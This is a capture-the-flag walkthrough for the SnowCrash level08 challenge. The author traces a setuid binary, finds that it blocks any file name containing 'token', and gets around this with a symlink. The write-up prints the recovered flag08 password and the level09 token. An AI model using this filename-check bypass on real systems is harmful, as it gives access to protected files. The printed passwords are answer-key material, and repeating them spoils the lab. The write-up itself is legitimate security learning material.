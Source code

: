 ```
    level08@SnowCrash:~$ ls -l
    total 16
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
same situation, flag08 executable with a token that can be accessed only by flag08 user.

```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                                = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
the executable run strstr("token", "token") so it compare file name with token then print you may not access to token
and by runing test below we can confirm that we can acces file if its name is different then token.


```
    level08@SnowCrash:~$ echo "test" > /tmp/token && ltrace ./level08 /tmp/token
    __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("/tmp/token", "token")                                                               = "token"
    printf("You may not access '%s'\n", "/tmp/token"You may not access '/tmp/token'
    )                                           = 32
    exit(1 <unfinished ...>
    +++ exited (status 1) +++
```

```
    level08@SnowCrash:~$ echo "test" > /tmp/tok && ltrace ./level08 /tmp/tok
    __libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("/tmp/tok", "token")                                                                 = NULL
    open("/tmp/tok", 0, 014435162522)                                                           = 3
    read(3, "test\n", 1024)                                                                     = 5
    write(1, "test\n", 5test
    )                                                                       = 5
    +++ exited (status 5) +++
```
    so we can creat a symlink and run the script on it

```
    level08@SnowCrash:~$ ln -s $(pwd)/token /tmp/pass
    level08@SnowCrash:~$ ./level08 /tmp/pass
    quif5eloekouj29ke0vouxean
    level08@SnowCrash:~$ su flag08
    Password:quif5eloekouj29ke0vouxean
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
    flag08@SnowCrash:~$ su level09
    Password:25749xKZ8L7DkSCwJkT9dyv6f
    level09@SnowCrash:~$ 
```

